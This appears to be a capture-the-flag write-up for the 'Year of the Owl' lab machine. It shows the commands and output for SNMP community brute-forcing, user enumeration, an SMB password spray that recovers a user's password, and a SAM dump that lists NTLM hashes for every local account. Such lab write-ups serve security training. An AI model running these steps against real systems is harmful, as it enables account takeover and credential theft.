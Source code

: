 Disclosure

# Year of the Owl

# Reconn

> onesixtyone  10.10.2.33 -c /usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt 

Scanning 1 hosts, 3219 communities
10.10.2.33 [openview] Hardware: Intel64 Family 6 Model 63 Stepping 2 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 17763 Multiprocessor Free)

> snmpwalk -c openview -v1 10.10.2.33 1.3.6.1.4.1.77.1.2.25

└─# snmpwalk -c openview -v1 10.10.2.33 1.3.6.1.4.1.77.1.2.25
iso.3.6.1.4.1.77.1.2.25.1.1.5.71.117.101.115.116 = STRING: "Guest"
iso.3.6.1.4.1.77.1.2.25.1.1.6.74.97.114.101.116.104 = STRING: "Jareth"
iso.3.6.1.4.1.77.1.2.25.1.1.13.65.100.109.105.110.105.115.116.114.97.116.111.114 = STRING: "Administrator"
iso.3.6.1.4.1.77.1.2.25.1.1.14.68.101.102.97.117.108.116.65.99.99.111.117.110.116 = STRING: "DefaultAccount"
iso.3.6.1.4.1.77.1.2.25.1.1.18.87.68.65.71.85.116.105.108.105.116.121.65.99.99.111.117.110.116 = STRING: "WDAGUtilityAccount"

─# crackmapexec smb 10.10.127.203 -u Jareth -p /opt/rockyou.txt


SMB         10.10.127.203   445    YEAR-OF-THE-OWL  [+] year-of-the-owl\Jareth:sarah 


Found in Recycle.bin 
sam.bak
system.bak

─# impacket-secretsdump  -sam sam.bak -system system.bak -ts local

Administrator:500:aad3b435b51404eeaad3b435b51404ee:6bc99ede9edcfecf9662fb0c0ddcfa7a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:39a21b273f0cfd3d1541695564b4511b:::
Jareth:1001:aad3b435b51404eeaad3b435b51404ee:5a6103a83d2a94be8fd17161dfd4555a:::

